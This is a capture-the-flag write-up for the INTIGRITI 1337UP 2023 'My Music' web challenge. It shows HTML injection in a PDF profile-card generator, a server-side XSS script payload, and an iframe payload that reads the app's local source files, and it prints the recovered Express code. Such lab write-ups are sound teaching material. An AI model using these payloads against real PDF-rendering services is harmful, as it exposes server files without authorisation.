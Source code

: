 ```yaml
---
CTF: INTIGRITI 1337UP LIVE 2023
Challenge Name: My Music
Category: Web
Date: 17/11/23
Author: holmesec
Points: 497
Solves: 10
---
```

[![VIDEO](https://img.youtube.com/vi/JetPydd3ud4/0.jpg)](https://www.youtube.com/watch?v=JetPydd3ud4 "My Music: Leveraging Server Side XSS (PDF) for Auth Bypass")

### Description
>Checkout my new platform for sharing the tunes of your life! 🎶

# Solution
## Enumeration
Register an account, notice we are given a login hash to save, e.g. `25d6a4cec174932f1effd56e2273be5198c3be06ddf03ab380a7ffc4cf3ef4e8`.

We can `generate profile card` which creates a PDF but [by default] the request/response doesn't show in burp, let's make some adjustments:
- Set burp scope to `https://mymusic.ctf.intigriti.io` and tick the `only show in-scope items` option in HTTP history tab (reduces noise, especially from spotify requests).
- Tick `images` and `other binary` in the the `filter by MIME type` section of the HTTP history options (ensuring our PDF generation is shown). 

We can update three sections of our profile; `First name`, `Last name` and `Spotify track code`. For each element we add some HTML tags, e.g. `<b>crypto</b>` and try to generate a new profile card. All three elements are reflected in the PDF document, but only the `Spotify track code` is in bold.

Now we have found HTML injection, we can try and [server-side XSS](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf) to identify the file structure.
```js
<script>document.body.append(location.href)</script>
```

Returns `file:///app/tmp/3c433348-60e3-4a48-b989-2a168954147f.html`

Since we confirmed the file location as `/app`, we can enumerate common files, either manually or by brute-forcing a [wordlist](https://github.com/danielmiessler/SecLists).
### app/app.js
```js
<iframe src="/app/app.js" style="width: 999px; height: 999px"></iframe>
```

We'll quickly recover the source code for `app.js`.
```js
const express = require("express");
const { engine } = require("express-handlebars");
const cookieParser = require("cookie-parser");
const { auth } = require("./middleware/auth");
const app = express();
app.engine("handlebars", engine());
app.set("view engine", "handlebars");
app.set("views", "./views");
app.use(express.json());
app.use(cookieParser());
app.use(auth);
app.use("/static", express.static("static"));
app.use("/", require("./routes/index"));
app.use("/api", require("./routes/api"));
```